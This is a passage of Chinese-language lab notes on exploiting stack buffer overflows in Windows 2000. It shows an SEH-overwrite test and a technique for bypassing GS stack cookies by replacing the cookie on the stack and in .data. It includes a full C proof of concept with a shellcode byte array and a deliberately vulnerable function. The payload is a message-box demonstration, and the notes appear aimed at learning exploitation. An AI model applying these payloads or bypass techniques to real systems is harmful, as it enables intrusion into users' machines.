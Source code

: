 ||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows 2000 SP4| |
|编译器|Visual Studio 2005|Windows 2000最高支持VS2005 |
|编译选项|<font color=#f00>禁用优化选项</font>| |
|build版本|release版本| |


测试步骤
1. 首先用"\x90"*199+"\0"作为shellcode，按照实验环境编译，用OllyDbg加载程序，在程序执行strcpy后中断程序
执行完之后，发现shellcode起始位置为0x0012FEA0，距离栈顶最近的SEH位于0x0012FFb0+4。于是知道shellcode起始位置到最近的SEH句柄需要276字节。
2. shellcode: 168字节弹出对话框shellcode + 108*"\x90" + "\xA0\xFE\x12\x00"

### 5. 同时替换栈中和.data中的Cookie突破GS

#### 5.1 实验代码

<pre><code>
#include "stdafx.h"
#include "string.h"
#include "stdlib.h"

char shellcode[] = 
	"\x90\x90\x90\x90"	// new value of cookie in .data
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\xF4\x6F\x82\x90"	// result of \x90\x90\x90\x90 xor EIP
	"\x90\x90\x90\x90"
	"\x94\xFE\x12\x00";  // address of shellcode 

void test(char *s, int i, char *src)
{
	char dest[200];
	if(i&lt;0x9995)
	{
		char *buf = s+i;
		*buf = *src;
		*(buf+1) = *(src+1);
		*(buf+2) = *(src+2);
		*(buf+3) = *(src+3);
		strcpy(dest, src);
	}
}
void main()
{
	char *str = (char *)malloc(0x10000);
	test(str, 0xffff3094, shellcode);
}
</code></pre>
